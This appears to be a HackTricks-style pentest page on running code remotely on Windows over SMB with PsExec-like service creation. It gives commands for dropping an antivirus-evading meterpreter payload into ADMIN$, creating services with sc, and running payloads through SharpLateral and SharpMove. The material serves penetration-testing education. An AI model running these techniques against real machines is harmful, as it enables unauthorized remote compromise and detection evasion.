 # PsExec/Winexec/ScExec/SMBExec

{{#include ../../banners/hacktricks-training.md}}

## How do they work

The process is outlined in the steps below, illustrating how service binaries are manipulated to achieve remote execution on a target machine via SMB:

1. **Copying of a service binary to the ADMIN$ share over SMB** is performed.
2. **Creation of a service on the remote machine** is done by pointing to the binary.
3. The service is **started remotely**.
4. Upon exit, the service is **stopped, and the binary is deleted**.

### **Process of Manually Executing PsExec**

Assuming there is an executable payload (created with msfvenom and obfuscated using Veil to evade antivirus detection), named 'met8888.exe', representing a meterpreter reverse_http payload, the following steps are taken:

- **Copying the binary**: The executable is copied to the ADMIN$ share from a command prompt, though it may be placed anywhere on the filesystem to remain concealed.
    - Instead of copying the binary it's also possible to use a LOLBAS binary like `powershell.exe` or `cmd.exe` to execute commands directly from the arguments. E.g. `sc create [ServiceName] binPath= "cmd.exe /c [PayloadCommand]"`
- **Creating a service**: Utilizing the Windows `sc` command, which allows for querying, creating, and deleting Windows services remotely, a service named "meterpreter" is created to point to the uploaded binary.
- **Starting the service**: The final step involves starting the service, which will likely result in a "time-out" error due to the binary not being a genuine service binary and failing to return the expected response code. This error is inconsequential as the primary goal is the binary's execution.

Observation of the Metasploit listener will reveal that the session has been initiated successfully.

[Learn more about the `sc` command](https://technet.microsoft.com/en-us/library/bb490995.aspx).

Find moe detailed steps in: [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)

- You could also use the **Windows Sysinternals binary PsExec.exe**:

![](<../../images/image (928).png>)

Or access it via webddav:

```bash
\\live.sysinternals.com\tools\PsExec64.exe -accepteula
```

- You could also use [**SharpLateral**](https://github.com/mertdas/SharpLateral):

```bash
SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName
```

- You could also use [**SharpMove**](https://github.com/0xthirteen/SharpMove):

```bash
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```

- You could also use **Impacket's `psexec` and `smbexec.py`**.


{{#include ../../banners/hacktricks-training.md}}

